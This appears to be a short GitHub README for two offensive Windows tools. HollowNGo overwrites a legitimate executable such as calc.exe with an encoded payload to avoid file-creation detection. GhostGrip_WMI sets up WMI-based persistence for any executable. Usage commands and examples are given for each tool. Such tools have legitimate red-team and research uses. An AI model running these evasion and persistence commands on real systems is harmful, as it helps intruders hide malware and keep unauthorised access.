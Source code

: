 HollowNGo aims to avoid FileCreation Events by reading your payload as bytes, compressing them, and converting the compressed bytes to base64, setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. THIS IS TO BE RUN ON YOUR MACHINE NOT THE TARGET.
HollowNGo.exe -encode <source.exe> -output <output.txt>
example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt
HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -source <EvilB64Code> -target C:\Windows\System32\calc.exe

GhostGrip_WMI uses basic PowerShell Persistence
GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -randomizename true/false
example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -randomizename true
